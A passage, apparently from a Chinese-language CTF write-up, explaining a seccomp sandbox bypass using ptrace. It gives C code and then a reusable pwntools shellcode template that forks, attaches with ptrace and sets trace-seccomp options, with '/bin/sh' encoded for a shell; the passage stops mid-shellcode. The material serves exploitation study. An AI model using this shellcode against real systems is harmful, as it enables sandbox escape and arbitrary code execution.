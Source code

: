 ```c
}
```
如果是shellcode版本的话，为了方便，可以把SETOPTIONS也放到循环内部。
```c
int main()
{
    pid_t child = fork();

    if (child == 0)
    {
        // 子进程
        struct timespec req = {3, 0};
        nanosleep(&req, NULL);
        execl("/usr/bin/ls", "ls", NULL);
    }
    else
    {
        // 父进程:负责追踪子进程
        ptrace(PTRACE_ATTACH, child, NULL, NULL);
        while (1)
        {
            waitpid(child, 0, 0);
            ptrace(PTRACE_SETOPTIONS, child, NULL, PTRACE_O_TRACESECCOMP);
            ptrace(PTRACE_CONT, child, 0, 0);
        }
    }
    return 0;
}
```
## 完整板子
下面是完整板子
```python
order1 = b'/bin/sh'[::-1].hex()

shellcode = asm(f'''
    mov rax, 57
    syscall
    cmp rax, 0
    je child_process
parent_process:
    mov rsi, rax
    mov r8,  rax

    mov rax, 101
    mov rdi, 0x10
    xor rdx, rdx
    xor r10, r10 
    syscall                 /* ptrace(PTRACE_ATTACH, child_pid, 0, 0) */
monitor_child:
    mov rdi, r8
    mov rsi, rsp
    xor rdx, rdx
    xor r10, r10
    mov rax, 61
    syscall                 /* invoke wait4() */

    mov rdi, 0x4200
    mov rsi, r8
    xor rdx, rdx
    mov r10, 0x00000080
    mov rax, 101
    syscall                 /* ptrace(PTRACE_SETOPTIONS, child_pid, 0, 0) */
```